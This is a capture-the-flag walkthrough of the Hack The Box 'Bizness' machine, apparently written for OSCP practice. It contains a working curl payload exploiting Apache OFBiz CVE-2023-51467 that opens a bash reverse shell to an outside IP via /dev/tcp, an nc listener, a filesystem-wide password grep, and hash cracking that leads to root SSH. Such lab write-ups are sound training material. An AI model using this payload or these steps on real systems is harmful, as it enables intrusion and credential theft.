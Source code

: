 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Enumeration

```bash
nmap -p- -T4 10.10.11.X
```

> Port [80](HTTP.md) was open and used for further exploitation.

---

## 🗂️ Hosts File Update

```bash
sudo nano /etc/hosts
```

Add:

```text
10.10.11.X  bizness.htb
```

---

## 🕵️ Directory Enumeration

```bash
dirsearch -u http://bizness.htb
```

> Revealed `/control/login` and other routes.

---

## 🔐 Authentication Discovery

> Manual testing in browser showed:
- `"admin"` = valid username
- gibberish usernames = `"User does not exist"`

---

## 💥 Initial Foothold - Apache OfBiz RCE (CVE-2023-51467)

### Payload (Groovy Sandbox RCE):

```bash
curl -kv -H "Host: bizness.htb:443" \
-d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >& /dev/tcp/10.10.16.98/1234 0>&1;';x.execute();" \
"https://bizness.htb:443/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

> `bash reverse shell` sent via vulnerable Groovy context.  
> `curl` is used since `wget` is blocked.

---

## 📞 Set Up Listener

```bash
nc -lvnp 1234
```

---

## 🧑‍💻 Gained Shell as `ofbiz`

```bash
whoami
cat /etc/passwd
ls /home
cat user.txt
```

---

## ⬆️ Privilege Escalation

### 🔎 Grep for Passwords

```bash
grep -arin -o -E '(\w+\W+){0,5}Password(\w+\W+){0,5}' /
```

> Discovered:
- `Adminuserlogindata.xml`
- `c54d0.dat` (contains salted SHA1 hash)

---

## 🔓 Crack OfBiz SHA1 Password

### Clone Cracker Tool

```bash
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
cd Apache-OFBiz-SHA1-Cracker
```

### Use RockYou Wordlist

```bash
python3 crack.py -w /usr/share/wordlists/rockyou.txt -H <hash>
```

> Recovered password: `monkeybizness`

---

## 🔐 [SSH](SSH) as Root

```bash
ssh root@bizness.htb
```

> Used cracked password from the OfBiz hash.

---

## 🏁 Get Root Flag

```bash
cat /root/root.txt
```